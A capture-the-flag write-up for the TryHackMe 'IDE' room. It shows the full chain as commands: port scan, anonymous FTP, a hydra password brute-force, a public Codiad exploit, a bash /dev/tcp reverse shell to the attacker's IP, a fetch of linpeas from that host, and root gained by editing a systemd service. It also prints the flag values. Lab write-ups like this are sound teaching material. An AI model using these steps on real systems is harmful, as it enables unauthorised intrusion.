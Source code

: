 ```yaml
---
description: https://tryhackme.com/room/ide
---
```


# IDE

![](../../.gitbook/assets/10.10.45.178.png)

## Task 1 Flags

#### user.txt

```bash
rustscan -a 10.10.45.178 -- -n -sV -sC
```

![](<../../.gitbook/assets/Screenshot from 2022-03-19 14-16-14.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-19 14-17-21.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-19 14-17-52.png>)

```bash
lftp -u Anonymous, 10.10.45.178
```

![](<../../.gitbook/assets/Screenshot from 2022-03-19 14-27-12.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-19 14-34-37.png>)

```bash
hydra -l john -P /usr/share/wordlists/rockyou.txt \
'http-post-form://10.10.45.178:62337/components/user/controller.php?action=authenticate:username=^USER^&password=^PASS^&theme=default&language=en:Incorrect' \
-t64
```

![](<../../.gitbook/assets/Screenshot from 2022-03-19 14-42-55.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-19 14-43-35.png>)

```bash
searchsploit codiad 2.8.4
searchsploit -m 49705
```

![](<../../.gitbook/assets/Screenshot from 2022-03-19 14-49-13.png>)

```bash
python3 49705.py http://10.10.45.178:62337/ \
                 john password 10.6.9.176 4444 linux
```

![](<../../.gitbook/assets/Screenshot from 2022-03-19 14-52-37.png>)

```bash
echo 'bash -c "bash -i >/dev/tcp/10.6.9.176/4445 0>&1 2>&1"' | nc -lnvp 4444
```

```bash
nc -lnvp 4445
find / -type f -name user.txt 2>/dev/null
cat /home/drac/user.txt
ls -l /home/drac/user.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-19 14-52-52.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-19 14-55-46.png>)

```bash
wget http://10.6.9.176/linpeas.sh
bash linpeas.sh
```

![](<../../.gitbook/assets/Screenshot from 2022-03-19 14-59-18.png>)

```bash
ssh drac@10.10.45.178
cat user.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-19 15-01-47.png>)

{% hint style="success" %}
`02930d21a8eb009f6d26361b2d24a466`
{% endhint %}



#### root.txt

```bash
sudo -l
ls -l /lib/systemd/system/vsftpd.service
```

![](<../../.gitbook/assets/Screenshot from 2022-03-19 15-34-29.png>)

![](<../../.gitbook/assets/Screenshot from 2022-03-19 15-12-41.png>)

```bash
vim /lib/systemd/system/vsftpd.service
sudo /usr/sbin/service vsftpd restart
systemctl daemon-reload
```

![](<../../.gitbook/assets/Screenshot from 2022-03-19 15-18-42.png>)

```bash
nc -nvlp 4446
find / -type f -name root.txt 2>/dev/null
cat /root/root.txt
```

![](<../../.gitbook/assets/Screenshot from 2022-03-19 15-23-05.png>)

{% hint style="success" %}
`ce258cb16f47f1c66f0b0b77f4e0fb8d`
{% endhint %}
